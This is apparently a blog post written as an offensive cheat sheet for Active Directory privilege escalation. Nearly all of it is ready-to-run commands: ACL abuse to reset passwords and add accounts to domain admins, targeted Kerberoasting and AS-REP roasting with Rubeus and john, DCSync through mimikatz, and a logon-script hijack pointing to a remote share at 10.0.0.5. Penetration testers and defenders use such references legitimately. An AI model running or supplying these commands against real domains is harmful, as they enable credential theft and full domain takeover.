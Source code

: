 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Privilege Escalation Techniques
---
```


# ACL Abuse
Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
2. AllExtendedRights
- **Change Password**
```bash
net user <username> <password> /domain
```
- **Add to Group**
    - Using `net`:
```bash
net group "domain admins" spotless/add /domain
```
    - Using Active Directory module:
```powershell
Add-ADGroupMember -Identity "domain admins" -Members spotless
```
    - Using PowerSploit:
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
3. Self-Membership

	- **Add to Group**
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```
4. ExtendedRight on
	- **User-Force-Change-Password (Password Reset)**
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```
5. WriteProperty
	- **Add to Group**
```powershell
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```
6. WriteOwner
	- **Change the object’s owner**
```powershell
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
```
	- **Check Owner**
```powershell
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```
7. WriteDACL
	- **Grant Generic Permissions** (must be the owner)
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```
8. DCSync Attack 
	- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.
```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

- Using PowerView:
```powershell
Get-DomainUser –SPN
```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
```bash
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

### Targeted Kerberoasting

- Find "Write" Permissions
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
- Find SPN
```powershell
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

- Set-SPN
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
	```

- Kerberoasting
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

### AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```

---

